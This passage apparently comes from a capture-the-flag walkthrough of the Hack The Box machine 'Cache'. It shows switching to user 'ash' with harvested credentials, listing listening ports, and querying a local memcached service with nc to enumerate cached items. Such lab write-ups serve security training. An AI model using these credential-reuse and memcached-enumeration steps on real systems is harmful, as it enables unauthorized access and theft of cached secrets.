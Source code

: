 ## User #1
- We can `su` to `ash` using creds we found
```
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su - ash
Password: 
ash@cache:~$ 
```

## User #2
- `netstat`
```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -         
```

- We have a port `11211` open, which usually belongs to `memcached`

```
ash@cache:~$ ps auxww | grep 11211
memcache   974  0.0  0.0 425792  4008 ?        Ssl  17:32   0:01 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
ash       3573  0.0  0.0  13136  1040 pts/0    S+   19:07   0:00 grep --color=auto 11211

```

- Let's enumerate it
  - https://book.hacktricks.xyz/network-services-pentesting/11211-memcache
  - https://www.hackingarticles.in/penetration-testing-on-memcached-server/
```
ash@cache:~$ echo "stats items" | nc -vn -w 1 127.0.0.1 11211
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 48
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
```